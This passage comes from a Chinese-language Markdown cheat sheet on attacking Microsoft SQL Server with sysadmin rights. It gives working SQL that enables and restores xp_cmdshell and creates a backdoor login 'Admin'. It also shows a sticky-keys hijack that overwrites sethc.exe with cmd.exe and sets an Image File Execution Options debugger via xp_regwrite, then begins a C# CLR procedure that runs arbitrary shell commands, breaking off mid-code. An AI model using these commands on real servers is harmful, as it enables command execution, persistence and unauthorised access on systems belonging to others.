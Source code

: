 **利用条件:**

* 拥有DBA权限 `select is_srvrolemember('sysadmin');`

```sql
exec sp_configure 'show advanced options',1  
reconfigure;exec sp_configure 'xp_cmdshell',1;
reconfigure
```
被删除后，重新添加xp``_cmdshell存储过程语句
```sql
EXEC sp_addextendedproc xp_cmdshell,@dllname ='xplog70.dll'declare @o int;
sp_addextendedproc 'xp_cmdshell', 'xpsql70.dll';
```
##  6. <a name='ap_addlogin'></a>ap_addlogin添加用户
```sql
EXEC sp_addlogin 'Admin', 'test123', 'master'
# 用户Admin，密码test123，默认数据库master
```
##  7. <a name='xp_regwrite'></a>xp_regwrite劫持粘滞键
```sql
#sp_oacreate复制文件
exec sp_configure 'show advanced options', 1;RECONFIGURE
exec sp_configure 'Ole Automation Procedures',1;RECONFIGURE
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\cmd.exe' ,'c:\windows\system32\sethc.exe';
exec xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\sethc.EXE','Debugger','REG_SZ','c:\windows\system32\cmd.exe';
```
##  8. <a name='CLR'></a>CLR执行命令

###  8.1. <a name='sql'></a>创建sql文件
勾选创建sql文件,选3.5Net 兼容性更好
![CLR1.png](https://cdn.nlark.com/yuque/0/2021/png/12610959/1628249622336-34f54dea-5aae-4584-a80c-eeff2f1d3f01.png#clientId=ua0a461ef-7c4c-4&from=drop&id=u8a58121a&margin=%5Bobject%20Object%5D&name=CLR1.png&originHeight=561&originWidth=1027&originalType=binary&ratio=1&size=19411&status=done&style=none&taskId=u1c032984-9062-480c-a90b-156643f0370)
![CLR2.png](https://cdn.nlark.com/yuque/0/2021/png/12610959/1628249599733-28ca397f-9873-4afe-8c0d-2f4171e28f6f.png#clientId=ua0a461ef-7c4c-4&from=drop&id=u85da9149&margin=%5Bobject%20Object%5D&name=CLR2.png&originHeight=752&originWidth=677&originalType=binary&ratio=1&size=17434&status=done&style=none&taskId=uf31ac0c7-d7e7-492f-8589-212abb76628)
###  8.2. <a name='C'></a>C#代码
```c
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using System.Diagnostics;
using System.Text;
using Microsoft.SqlServer.Server;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void Runexec (string cmd)
    {
        // 在此处放置代码
        SqlContext.Pipe.Send("Running command");
        SqlContext.Pipe.Send(Runcommand("cmd.exe", " /c " + cmd));
    }
    public static string Runcommand(string bin,string command)
    {
        //启动一个进程
        var process = new Process();
        process.StartInfo.FileName = bin;
```